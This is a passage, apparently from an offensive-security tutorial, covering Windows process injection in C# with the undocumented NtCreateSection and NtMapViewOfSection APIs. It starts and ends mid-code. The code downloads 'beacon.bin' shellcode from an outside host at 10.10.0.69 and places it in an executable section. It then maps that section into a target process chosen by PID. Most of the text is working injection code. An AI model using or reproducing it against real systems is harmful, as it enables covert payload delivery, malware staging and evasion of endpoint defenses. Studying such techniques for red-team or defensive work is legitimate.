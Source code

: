 ```cs
}
```

# NtMapViewOfSection

The Nt-*Section set of APIs provides a nice alternative to VirtualAllocEx, WriteProcessMemory and VirtualProtectEx.  The big challenge with using these lower-level native APIs is that they're not officially documented, so we must rely on the efforts of individuals who perform reverse engineering on ntdll.dll to figure them out.  One such resource is [ntinternals.net](http://undocumented.ntinternals.net/index.html).

1.  Fetch the shellcode and create a new section within our current process.  The section has to be as large as the shellcode size.
```cs
var shellcode = await client.GetByteArrayAsync("https://10.10.0.69/beacon.bin");

var hSection = IntPtr.Zero;
var maxSize = (ulong)shellcode.Length;

// Create a new section in the current process
Native.NtCreateSection(
    ref hSection,
    0x10000000,     // SECTION_ALL_ACCESS
    IntPtr.Zero,
    ref maxSize,
    0x40,           // PAGE_EXECUTE_READWRITE
    0x08000000,     // SEC_COMMIT
    IntPtr.Zero);
```

2.  Map the view of that section into memory of the current process.
```cs
// Map that section into memory of the current process as RW
Native.NtMapViewOfSection(
    hSection,
    (IntPtr)(-1),   // will target the current process
    out var localBaseAddress,
    IntPtr.Zero,
    IntPtr.Zero,
    IntPtr.Zero,
    out var _,
    2,              // ViewUnmap (created view will not be inherited by child processes)
    0,
    0x04);          // PAGE_READWRITE

// Copy shellcode into memory of our own process
Marshal.Copy(shellcode, 0, localBaseAddress, shellcode.Length);
```

3.  Get a handle to the target process and map the same section into it.  This will automatically copy the shellcode from our current process to the target.
```cs
// Get reference to target process
var target = Process.GetProcessById(4148);

// Now map this region into the target process as RX
Native.NtMapViewOfSection(
    hSection,
    target.Handle,
    out var remoteBaseAddress,
    IntPtr.Zero,
    IntPtr.Zero,
    IntPtr.Zero,
    out _,
    2,
```